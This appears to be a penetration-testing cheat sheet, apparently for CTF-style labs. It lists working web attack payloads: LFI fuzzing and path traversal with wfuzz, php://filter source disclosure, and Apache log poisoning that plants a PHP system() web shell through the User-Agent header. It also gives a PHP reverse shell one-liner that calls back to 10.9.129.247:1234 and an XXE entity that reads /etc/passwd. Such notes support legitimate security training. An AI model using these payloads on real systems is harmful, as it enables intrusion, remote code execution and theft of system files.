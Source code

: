 ### Fuzz

```sh
wfuzz --hw 0 -c -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt http://$IP/page=../../../../../../../../..FUZZ
```

### View php code

```sh
=php://filter/convert.base64-encode/resource=page.php
```

### View access.log

```sh
=/var/www/html/development_testing/../../../../var/log/apache2/access.log
```

### Command injection

- Capture the request in BurpSuite and then send it to Repeater Tab
- Reload page with the User-Agent replaced with this php code: `<?php system($_GET[‘cmd’]);?>`
- Modifiy the get request
  
```sh
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=whoami HTTP/1.1
```

- Use the following reverse shell in cmd= (ctrl+u to encode it)
  
```sh
php -r '$sock=fsockopen("10.9.129.247",1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

## SSTI

Server-Side Template Injection
![SSTI](images/ssti.png)

## XML external entity (XXE) injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## PING

On Kali
```bash
sudo tcpdump -i tun0 icmp
```
